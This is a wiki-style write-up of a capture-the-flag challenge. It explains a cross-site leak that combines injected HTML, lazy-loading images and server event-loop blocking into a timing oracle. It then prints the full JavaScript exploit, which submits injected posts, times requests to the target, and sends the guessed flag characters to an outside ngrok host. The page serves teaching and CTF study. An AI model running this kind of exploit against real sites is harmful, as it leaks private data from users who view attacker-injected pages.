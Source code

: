 # Event Loop Blocking + Lazy images





In [**this exploit**](https://gist.github.com/aszx87410/155f8110e667bae3d10a36862870ba45), [**@aszx87410**](https://twitter.com/aszx87410) mixes the **lazy image side channel** technique through a HTML injection with kind of **event loop blocking technique** to leak chars.

This is a **different exploit for the CTF chall** that was already commented in the following page. take a look for more info about the challenge:

{% content-ref url="connection-pool-example.md" %}
[connection-pool-example.md](connection-pool-example.md)
{% endcontent-ref %}

The idea behind this exploit is:

* The posts are loaded alphabetically
* An **attacker** can **inject** a **post** starting with **"A"**, then some **HTML tag** (like a big **`<canvas`**) will fulfil most of the **screen** and some final **`<img lazy` tags** to load things.
* If instead of an "A" the **attacker injects the same post but starting with a "z".** The **post** with the **flag** will appear **first**, then the **injected** **post** will appear with the initial "z" and the **big** **canvas**. Because the post with the flag appeared first, the first canvas will occupy all the screen and the final **`<img lazy`** tags injected **won't be seen** in the screen, so they **won't be loaded**.
* Then, **while** the bot is **accessing** the page, the **attacker** will **send fetch requests**.&#x20;
  * If the **images** injected in the post are being **loaded**, these **fetch** requests will take **longer**, so the attacker knows that the **post is before the flag** (alphabetically).
  * If the the **fetch** requests are **fast**, it means that the **post** is **alphabetically** **after** the flag.

Let's check the code:

```html
<!DOCTYPE html>
<html>
<!--
  The basic idea is to create a post with a lot of images which send request to "/" to block server-side nodejs event loop.
  If images are loading, the request to "/" is slower, otherwise faster.
  By using a well-crafted height, we can let note with "A" load image but note with "Z" not load.
  We can use fetch to measure the request time.
-->
<body>
  <button onclick="run()">start</button>
  
  <!-- Inject post with payload -->
  <form id=f action="http://localhost:1234/create" method="POST" target="_blank">
    <input id=inp name="text" value="">
  </form>
  
  <!-- Remove index -->
  <form id=f2 action="http://localhost:1234/remove" method="POST" target="_blank">
    <input id=inp2 name="index" value="">
  </form>
  
  <script>
    let flag = 'SEKAI{'
    const TARGET = 'https://safelist.ctf.sekai.team'
    f.action = TARGET + '/create'
    f2.action = TARGET + '/remove'

    const sleep = ms => new Promise(r => setTimeout(r, ms))
    // Function to leak info to attacker
    const send = data => fetch('http://server.ngrok.io?d='+data)
    const charset = 'abcdefghijklmnopqrstuvwxyz'.split('')

    // start exploit
    let count = 0
    setTimeout(async () => {
      let L = 0
      let R = charset.length - 1
      
      // I have omited code here as apparently it wasn't necesary

      // fallback to linerar since I am not familiar with binary search lol
      for(let i=R; i>=L; i--) {
        let c = charset[i]
        send('try_' + flag + c)
        const found = await testChar(flag + c)
        if (found) {
          send('found: '+ flag+c)
          flag += c
          break
        }
      }
      
    }, 0)

    async function testChar(str) {
      return new Promise(resolve => {
          /*
            For 3350, you need to test it on your local to get this number.
            The basic idea is, if your post starts with "Z", the image should not be loaded because it's under lazy loading threshold
            If starts with "A", the image should be loaded because it's in the threshold.
          */
          // <canvas height="3350px"> is experimental and allow to show the injected
          // images when the post injected is the first one but to hide them when
          // the injected post is after the post with the flag
          inp.value = str + '<br><canvas height="3350px"></canvas><br>'+Array.from({length:20}).map((_,i)=>`<img loading=lazy src=/?${i}>`).join('')
          f.submit()

          setTimeout(() => {
            run(str, resolve)
          }, 500)
      })
    }

    async function run(str, resolve) {
      // Open posts page 5 times
      for(let i=1; i<=5;i++) {
        window.open(TARGET)
      }
      
      let t = 0
      const round = 30 //Lets time 30 requests
      setTimeout(async () => {
        // Send 30 requests and time each
        for(let i=0; i<round; i++) {
          let s = performance.now()
          await fetch(TARGET + '/?test', {
            mode: 'no-cors'
          }).catch(err=>1)
          let end = performance.now()
          t += end - s
          console.log(end - s)
        }
        const avg = t/round
        // Send info about how much time it took
        send(str + "," + t + "," + "avg:" + avg)

        /*
          I get this threshold(1000ms) by trying multiple times on remote admin bot
          for example, A takes 1500ms, Z takes 700ms, so I choose 1000 ms as a threshold
        */
        const isFound = (t >= 1000)
        if (isFound) {
          inp2.value = "0"
        } else {
          inp2.value = "1"
        }

        // remember to delete the post to not break our leak oracle
        f2.submit()
        setTimeout(() => {
          resolve(isFound)
        }, 200)
      }, 200)
    }
    
  </script>
</body>
</html>
```




